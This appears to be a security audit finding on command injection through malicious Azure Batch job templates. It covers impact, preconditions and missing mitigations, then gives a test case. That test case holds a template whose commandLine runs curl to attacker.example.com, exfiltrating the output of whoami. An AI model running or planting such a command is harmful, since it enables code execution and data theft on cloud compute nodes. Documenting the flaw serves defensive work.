 - Vulnerability Name: Command Injection in Job Templates

- Description:
  1. An attacker crafts a malicious `job.template.json` file.
  2. Within this template, the attacker injects arbitrary commands into task definitions. This can be achieved by manipulating parameters that are used to construct the task command line or directly within the command line definition itself.
  3. A user, intending to utilize Azure Batch templates from this repository, imports and uses the malicious template through either Batch Explorer or Azure Batch CLI extensions.
  4. When a job is created and tasks are executed based on this tampered template, the injected commands are executed on the Azure Batch compute nodes as part of the task execution.

- Impact:
  - Successful exploitation allows for arbitrary code execution on Azure Batch compute nodes.
  - This can lead to a range of severe consequences, including:
    - Data exfiltration from the compute nodes or connected storage accounts.
    - Unauthorized access to and manipulation of the Azure Batch environment.
    - Lateral movement to other Azure resources if the compute nodes have sufficient permissions.
    - Complete compromise of the compute node, potentially allowing the attacker to establish persistence or use it for further attacks.

- Vulnerability Rank: Critical

- Currently Implemented Mitigations:
  - None. The project itself focuses on providing templates and does not include any mitigation logic. The responsibility for mitigating this vulnerability lies with the tools that consume these templates (Batch Explorer and Azure Batch CLI extensions).

- Missing Mitigations:
  - Input validation and sanitization within Batch Explorer and Azure Batch CLI extensions are crucial. These tools should:
    - Thoroughly validate all fields in `job.template.json` and `pool.template.json` before using them to create Azure Batch resources.
    - Sanitize parameters and command line arguments to prevent command injection.
    - Implement a secure parsing mechanism for templates that avoids direct execution of potentially malicious content.
    - Consider using a sandboxed environment or restricted execution context for tasks created from templates, although this might be a feature of Azure Batch itself rather than the template consumers.

- Preconditions:
  - An attacker needs to be able to host or distribute a malicious `job.template.json` file. This could be achieved by:
    - Compromising the template repository itself (if possible).
    - Hosting the malicious template on a separate, publicly accessible location and tricking users into using it.
    - Social engineering to convince a user to download and import a malicious template from an untrusted source.
  - A user must then import and utilize this malicious template through Batch Explorer or Azure Batch CLI extensions while managing their Azure Batch account.

- Source Code Analysis:
  - The provided project files do not contain the source code for Batch Explorer or Azure Batch CLI extensions. Therefore, a direct code analysis to pinpoint the vulnerable code within those tools is not possible based on these files alone.
  - However, the vulnerability is evident in the design: `job.template.json` files allow defining task command lines using JSON structures. These command lines are then directly interpreted and executed by the Azure Batch service on the compute nodes.
  - Reviewing files like `/code/templates/blender/scripts/python-task-manager.py` and `/code/templates/blender/scripts/setup-linux-pool.sh` shows that these scripts are designed to be executed as part of tasks defined in templates. If a template is crafted to manipulate environment variables or command line arguments used by these scripts, or to replace these scripts with malicious ones, command injection is possible.
  - The `runner` directory's scripts like `Runner.py` and `test_manager.py` are used for testing templates, but they do not introduce or mitigate the command injection vulnerability itself. They highlight the mechanism by which templates are processed and executed, reinforcing the potential for command injection if templates are not securely handled by Batch Explorer or Azure Batch CLI extensions.

- Security Test Case:
  1. **Create a Malicious Job Template:**
     - Create a `malicious_job.template.json` file with the following content (example for Linux):
       ```json
       {
         "job": {
           "properties": {
             "taskFactory": {
               "type": "taskPerNode",
               "tasks": [
                 {
                   "id": "malicious-task",
                   "commandLine": "/bin/bash -c 'mkdir /tmp/pwned && curl http://attacker.example.com/exfiltrate?pwned=$(whoami)'"
                 }
               ]
             }
           }
         }
       }
       ```
       - This template defines a task that will:
         - Create a directory `/tmp/pwned` on the compute node (as a marker of execution).
         - Make an HTTP request to `http://attacker.example.com/exfiltrate` sending the output of the `whoami` command as a parameter. Replace `attacker.example.com` with a server you control to capture the exfiltrated data.
  2. **Host the Malicious Template:**
     - Upload `malicious_job.template.json` to a publicly accessible web server or a GitHub repository (e.g., create a public gist or a simple GitHub repo). Let's assume you host it at `https://attacker.example.com/malicious_templates/malicious_job.template.json`.
  3. **Configure Batch Explorer (or Azure Batch CLI extensions):**
     - If using Batch Explorer, manually import the `malicious_job.template.json` file using the "Local Templates" option.
     - If using Azure Batch CLI extensions, you would typically use these templates programmatically; for testing, simulate the import process as closely as possible to how a user would use it.
  4. **Create and Run a Job:**
     - Using Batch Explorer or Azure Batch CLI extensions, create a new job based on the imported `malicious_job.template.json` template. Ensure you have a valid Azure Batch pool to run the job on.
  5. **Monitor for Command Execution:**
     - **Option 1: Check Task Logs:** After the task runs, examine the `stdout.txt` or `stderr.txt` for the "malicious-task" in Batch Explorer. You should see output related to the commands executed (`mkdir` and `curl`).
     - **Option 2: Monitor Attacker's Server:** Set up a simple HTTP listener (e.g., using `netcat` or `Python's http.server`) on `attacker.example.com`. Run the job and check the logs of your HTTP listener. You should receive a request from the Azure Batch compute node, and the `whoami` command output should be present in the request parameters, confirming command injection and execution.
  6. **Verification:**
     - If you successfully receive the HTTP request with the `whoami` output on your server, or if you see evidence of the commands executed in the task logs, the command injection vulnerability is confirmed.